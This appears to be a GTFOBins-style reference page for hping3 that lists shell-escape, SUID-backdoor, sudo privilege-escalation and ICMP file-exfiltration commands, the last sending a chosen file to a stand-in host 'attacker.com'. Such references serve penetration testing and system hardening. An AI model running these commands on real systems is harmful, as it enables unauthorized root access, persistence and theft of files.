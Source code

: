 # GTFOBin: hping3

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
hping3
/bin/sh
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which hping3) .

./hping3
/bin/sh -p
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo hping3
/bin/sh
```

The file is continuously sent, adjust the `--count` parameter or kill the sender when done. Receive on the attacker box with:

```
sudo hping3 --icmp --listen xxx --dump

```

```
RHOST=attacker.com
LFILE=file_to_read
sudo hping3 "$RHOST" --icmp --data 500 --sign xxx --file "$LFILE"
```